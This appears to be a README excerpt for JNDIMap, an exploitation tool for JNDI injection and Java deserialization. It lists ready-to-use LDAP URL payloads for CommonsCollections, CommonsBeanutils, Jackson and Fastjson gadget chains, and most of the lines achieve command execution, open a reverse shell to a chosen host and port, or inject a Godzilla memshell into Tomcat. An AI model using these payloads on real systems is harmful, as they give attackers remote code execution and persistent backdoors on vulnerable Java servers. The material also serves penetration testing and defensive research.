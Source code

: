 - CommonsCollections K1-K4
- CommonsBeanutils183
- CommonsBeanutils194
- Fastjson1 (1.2.x)
- Fastjson2 (2.0.x)
- Jackson

```bash
# custom data deserialization

# load via URL parameters
ldap://127.0.0.1:1389/Deserialize/FromUrl/<base64-url-encoded-serialized-data>
# load from the server running JNDIMap
ldap://127.0.0.1:1389/Deserialize/FromFile/payload.ser # the path is relative to the current directory
ldap://127.0.0.1:1389/Deserialize/FromFile/<base64-url-encoded-path-to-serialized-data>

# CommonsCollectionsK1 deserialization (3.1 + TemplatesImpl), supports command execution, reverse shell and memshell injection
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK1/Command/open -a Calculator
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK1/ReverseShell/127.0.0.1/4444
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK1/MemShell/Tomcat/Godzilla/Filter

# CommonsCollectionsK2 deserialization (4.0 + TemplatesImpl), same as above
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK2/Command/open -a Calculator

# CommonsCollectionsK3 deserialization (3.1 + Runtime.exec), only supports command execution
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK3/Command/open -a Calculator

# CommonsCollectionsK4 deserialization (4.0 + Runtime.exec), same as above
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK4/Command/open -a Calculator

# CommonsBeanutils deserialization
# No need for commons-collections dependency, use TemplatesImpl, support command execution, reverse shell and memshell injection
# According to the different serialVersionUID of BeanComparator, it is divided into two versions: 1.8.3 and 1.9.4

# 1.8.3
ldap://127.0.0.1:1389/Deserialize/CommonsBeanutils183/Command/open -a Calculator
ldap://127.0.0.1:1389/Deserialize/CommonsBeanutils183/ReverseShell/127.0.0.1/4444
ldap://127.0.0.1:1389/Deserialize/CommonsBeanutils183/MemShell/Tomcat/Godzilla/Filter

# 1.9.4
ldap://127.0.0.1:1389/Deserialize/CommonsBeanutils194/Command/open -a Calculator
ldap://127.0.0.1:1389/Deserialize/CommonsBeanutils194/ReverseShell/127.0.0.1/4444
ldap://127.0.0.1:1389/Deserialize/CommonsBeanutils194/MemShell/Tomcat/Godzilla/Filter

# Jackson deserialization
# Use JdkDynamicAopProxy to optimize instability issues, need spring-aop dependency
ldap://127.0.0.1:1389/Deserialize/Jackson/Command/open -a Calculator
ldap://127.0.0.1:1389/Deserialize/Jackson/ReverseShell/127.0.0.1/4444
ldap://127.0.0.1:1389/Deserialize/Jackson/MemShell/Tomcat/Godzilla/Filter

# Fastjson deserialization

# Fastjson1: all versions (1.2.x)
ldap://127.0.0.1:1389/Deserialize/Fastjson1/Command/open -a Calculator
ldap://127.0.0.1:1389/Deserialize/Fastjson1/ReverseShell/127.0.0.1/4444
ldap://127.0.0.1:1389/Deserialize/Fastjson1/MemShell/Tomcat/Godzilla/Filter

# Fastjson2: <= 2.0.26
ldap://127.0.0.1:1389/Deserialize/Fastjson2/Command/open -a Calculator
ldap://127.0.0.1:1389/Deserialize/Fastjson2/ReverseShell/127.0.0.1/4444
```
